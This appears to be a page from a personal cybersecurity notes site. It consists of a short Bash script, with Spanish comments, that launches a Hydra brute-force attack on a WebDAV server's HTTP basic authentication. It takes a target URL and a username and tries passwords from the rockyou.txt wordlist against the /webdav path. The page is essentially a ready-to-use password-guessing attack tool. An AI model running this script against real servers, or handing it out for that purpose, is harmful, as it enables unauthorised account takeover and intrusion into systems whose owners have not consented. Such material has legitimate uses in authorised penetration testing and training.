

repository: scarlgyx/scarlgyx-cybersecurity · page: scripts/webdav/index.html · generator: mkdocs

# WebDAV

```bash
#!/bin/bash

# Verificar si los argumentos son correctos
if [ "$#" -ne 2 ]; then
  echo "Uso: $0 <URL_WebDAV> <usuario>"
  exit 1
fi

# Asignar los argumentos a variables
URL=$1
USER=$2
WORDLIST="/usr/share/wordlists/rockyou.txt"

# Verificar si el diccionario existe
if [ ! -f "$WORDLIST" ]; then
  echo "El diccionario rockyou.txt no se encuentra en $WORDLIST"
  exit 1
fi

# Extraer el dominio sin protocolo
DOMAIN=$(echo $URL | sed 's|http[s]\?://||')

# Ejecutar Hydra para intentar fuerza bruta contra WebDAV usando autenticación básica HTTP
echo "Iniciando ataque de fuerza bruta contra $URL con el usuario $USER..."
hydra -l $USER -P $WORDLIST -s 80 $DOMAIN http-get /webdav

# Fin del script

```
